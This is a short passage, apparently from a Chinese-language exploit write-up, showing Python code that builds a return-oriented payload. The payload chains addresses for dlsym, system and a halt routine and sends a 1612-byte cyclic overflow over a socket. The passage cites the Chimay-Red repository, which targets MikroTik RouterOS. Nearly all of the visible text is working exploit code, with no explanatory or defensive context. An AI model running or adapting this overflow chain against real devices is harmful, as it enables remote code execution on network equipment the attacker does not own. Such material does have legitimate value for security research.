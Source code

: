 ```
payload += p32(dlsym_plt)
payload += p32(pp_addr)
payload += p32(0)
payload += p32(system_addr)

payload += p32(0x0804ab5b)
payload += "BBBB"  # padding ret
payload += p32(halt_addr)



s1.send(cyclic(1612) + payload + "B" * 0x100)
sleep(0.5)
pause()
s2.close()

pause()
```


**参考**


https://github.com/BigNerd95/Chimay-Red